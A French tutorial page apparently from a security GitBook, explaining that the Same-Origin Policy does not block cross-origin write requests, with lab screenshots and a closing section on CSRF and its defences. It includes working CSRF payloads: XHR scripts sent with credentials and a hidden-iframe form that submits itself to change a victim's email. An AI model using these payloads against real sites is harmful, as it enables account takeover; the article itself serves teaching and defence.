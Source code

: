 # Interactions de type écriture

Dans notre exemple, l'utilisateur peut légitiment modifier ses informations en les validant grâce au bouton `Update` disponible en bas du formulaire \(le champ `username` n'est pas modifiable ici\) :

![](../../../.gitbook/assets/57a85e605db9aec0d65c866aaa1a68ba.png)

La requête de mise à jour est de type **`POST`** :

![](../../../.gitbook/assets/620dba4a2bb3dcd1ab5eb5611cee3f47.png)

La page est ensuite rechargée et le formulaire contient les nouvelles informations \(ici la réponse HTTP du serveur\) :

![](../../../.gitbook/assets/4e57c3f74e03eb652413beeca76725d7.png)

## Requête same-origin

L'application peut _forcer_ une mise à jour des informations de l'utilisateur en hébergeant le script suivant sur une page d'une même origine \(ici `http://poc1.cybersecurity.com/same-origin-policy/ecriture_same_origin_ajax.php`\) :

```markup
<!-- POST XHR -->
<script>
            var xhr = new XMLHttpRequest();
            xhr.open("POST", 'http://poc1.cybersecurity.com/same-origin-policy/profile.php', true);
            xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            xhr.withCredentials = true;

            xhr.onreadystatechange = function() {
                if (this.readyState === XMLHttpRequest.DONE && this.status === 200) {
                    console.log(xhr.response);
                }
            }

            xhr.send("email=new_email@poc.com");
        </script>
```

Lors de la visite de cette page, la requête tente de mettre à jour l'adresse email de l'utilisateur avec la valeur `new_email@poc.com`, le navigateur n'affiche aucun warning et la console affiche la réponse de la requête :

![](../../../.gitbook/assets/e4683931d7698c07622dfdc234a0fd0d.png)

Quand l'utilisateur visite à nouveau la page de son profil, il affiche bien la nouvelle adresse e-mail :

![](../../../.gitbook/assets/8e01ee4e7a2f7402da4b3d30f2ea60ab.png)

Une requête same-origin de type écriture est donc bien légitime selon SOP.

## Requête cross-origin

### Requête provenant d'un autre sous-domaine

Admettons maintenant que la requête ne provienne plus de l'adresse `http://poc1.cybersecurity.com/same-origin-policy/ecriture_same_origin_ajax.php` mais de l'adresse `http://poc2.cybersecurity.com/same-origin-policy/ecriture_subdomain_ajax.php`. La requête XHR est la suivante :

![](../../../.gitbook/assets/27b85cf738cdef81eb9a8addaec3aa05.png)

Le serveur renvoi bien un **`200 OK`**, l'entête `Origin` est bien ajouté \(signifiant une requête cross-domain\) et la nouvelle valeur de l'adresse e-mail est bien envoyé, ici `new_subdomain_email@poc.com`.

Par contre, dans la console du navigateur de l'utilisateur, un message de warning apparaît :

![](../../../.gitbook/assets/575f0d6cd5600259ac30af24765163f5.png)

Mais comme le spécifie bien le message, SOP interdit la lecture de la réponse à la requête, qu'en est-il de l'écriture ? Il suffit que l'utilisateur visite à nouveau sa page de profile pour s'apercevoir que son adresse e-mail a été modifiée par la requête XHR : 

![](../../../.gitbook/assets/3a57f68273c8e243f897248ee97bd65c.png)

SOP n'interdit donc pas les interactions de type écriture entre deux sous-domaines différents \(pourtant l'origine est différente, une requête cross-origin est donc acceptée par SOP\).

### Requête provenant d'un domaine différent

Qu'en est-il maintenant si la requête n'est plus effectuée par `http://poc2.cybersecurity.com/same-origin-policy/ecriture_subdomain_ajax.php` mais par `http://poc1.malicious.com/same-origin-policy/ecriture_cross-origin_ajax.php`. La requête XHR est la suivante :

![](../../../.gitbook/assets/9a6c15c07d14181bcca880b35b8cd0be.png)

Le serveur renvoi bien un **`200 OK`**, l'entête `Origin` est bien ajouté \(signifiant une requête cross-domain\) et la nouvelle valeur de l'adresse e-mail est bien envoyé, ici `hacked@poc.com`.

Comme dans le cas d'une requête vers un sous-domaine différent, un message de warning apparaît dans la console du navigateur de l'utilisateur :

![](../../../.gitbook/assets/4311b68486c6f10dd936429f5b9f4b6a.png)

Mais comme le spécifie bien le message, SOP interdit la lecture de la réponse à la requête, qu'en est-il cette fois de l'écriture pour une requête provenant d'un domaine différent ? Il suffit que l'utilisateur visite à nouveau sa page de profile pour s'apercevoir que son adresse e-mail a été modifiée par la requête XHR : 

![](../../../.gitbook/assets/e1e43d7197325204e1ff61be20b49048.png)

SOP n'interdit donc pas les interactions de type écriture entre deux domaines différents \(pourtant l'origine est différente, une requête cross-origin est donc acceptée par SOP\).

## Alternative à XHR

Il existe des alternatives aux requêtes XHR pour effectuer, par exemple, des requêtes de type écriture. Ces requêtes sont également soumises à SOP de la même façon. Ci-dessous un formulaire HTML avec un auto-submit\(\) en Javascript :

```markup
<!-- POST HTML form JS auto-submit() -->
<iframe name="hiddenFrame" width="0" height="0" border="0" style="display: none;"></iframe>

<form method="POST" action="http://poc1.cybersecurity.com/same-origin-policy/profile.php" name="HTMLform" target="hiddenFrame">
  <input type="hidden" name="email" value="hacked_by_autosubmit_JS@poc.com">
</form>

<script>
  document.HTMLform.submit();
</script>
```

Il est possible de se passer de l'iframe mais la victime sera alors redirigé vers la page de son profil \(la requête sera donc facilement visible aux yeux de l'utilisateur\) :

```markup
<!-- POST HTML form JS auto-submit() -->
<form method="POST" action="http://poc1.cybersecurity.com/same-origin-policy/profile.php" name="HTMLform">
  <input type="hidden" name="email" value="hacked_by_autosubmit_JS@poc.com">
</form>

<script>
  document.HTMLform.submit();
</script>  
```

Ces techniques \(avec ou sans iframe\) ont pour avantage de ne pas afficher de warning dans la console du navigateur \(car il n'y a aucune tentative de lecture de la part du site malicieux\) :

![](../../../.gitbook/assets/2e5c9ea7a7f0aa7e24e8ca9c39b5f554.png)

Mais le profil de l'utilisateur a bien été mis à jour :

![](../../../.gitbook/assets/7af3c107d87495e76eb32e3301234b0d.png)

## Ecriture en GET

Bien que cela ne soit pas conseillé, il est possible qu'une requête en **`GET`** soit une requête en écriture \(plus exactement, une requête **`GET`** doit être idempotent\), par exemple en utilisant les _query parameters_. Admettons que la requête de l'application permettant de mettre à jour les informations de l'utilisateur est maintenant la suivante :

![](../../../.gitbook/assets/ad85f5e53994a36e19375cfe1c89baf2.png)

![](../../../.gitbook/assets/8ff9deb0701c9d42a9835f5303570234.png)

Le script effectuant la requête XHR \(par exemple sur `http://poc1.malicious.com/same-origin-policy/ecriture_cross-origin_ajax.php`\) devient alors :

```markup
<!-- POST XHR -->
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("GET", 'http://poc1.cybersecurity.com/same-origin-policy/profile.php?email=hacked_by_get_request@poc.com', true);
  xhr.withCredentials = true;

  xhr.onreadystatechange = function() {
    if (this.readyState === XMLHttpRequest.DONE && this.status === 200) {
      console.log(xhr.response);
    }
  }

  xhr.send();
</script>
```

A l'instar d'une requête **`POST`**, lorsque l'utilisateur visite la page exécutant le script, son profil est mis à jour :

![](../../../.gitbook/assets/3f1d8467797f23f6b5cff78328f50a9a.png)

## Faille Cross-Site Request Forgery \(CSRF\)

Bien qu'il ne s'agit pas de l'objectif de cet article, un petit mot sur les requêtes en écriture cross-origin. Ces requêtes bien que légitimes, ouvre la voix à une vulnérabilité web bien connue : la faille [CSRF](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_%28CSRF%29).

Cette vulnérabilité permet d'effectuer une requête \(en écriture donc, c'est à dire pouvant modifier l'état de l'application au sens général du terme\) à l'insu de la victime. Quand la victime visite le site malveillant `http://poc1.malicious.com` il ne souhaite pas que ce site modifie son adresse e-mail sur une autre application \(par exemple ici `http://poc1.cybersecurity.com`\) auquel il est connecté. Mais étant donné que le navigateur envoi automatiquement le jeton de session \(ici dans le cookie **`PHPSESSID`**\) à l'application vulnérable \(`http://poc1.cybersecurity.com`\), alors le compte de l'utilisateur s'en trouve modifier. Le pirate pourra par exemple ensuite utiliser la fonction "Reset password" de l'application vulnérable, et ainsi récupérer un accès total au compte de la victime \(l'e-mail du "Reset Password" sera envoyé au pirate et non plus à la victime\).

La principale méthode de s'en protéger est que l'application vulnérable implémente une protection à base de jeton anti-CSRF \(plus de détails sur le site de l'[OWASP](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.md#token-based-mitigation)\). Il est également possible de s'orienter vers les cookies dits [**`same-site`**](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.md#samesite-cookie-attribute), mais cette protection est relativement récente et pas encore implémentée par tous les navigateurs \(et également encore en mode [draft](https://tools.ietf.org/html/draft-ietf-httpbis-rfc6265bis-02#section-5.3.7)\).

{% hint style="info" %}
Une piste de cette vulnérabilité était donnée en assignant l'adresse e-mail de l'utilisateur à la valeur `hacked@poc.com` dans le cas d'exemple d'une requête provenant d'un domaine différent😉 .
{% endhint %}



 

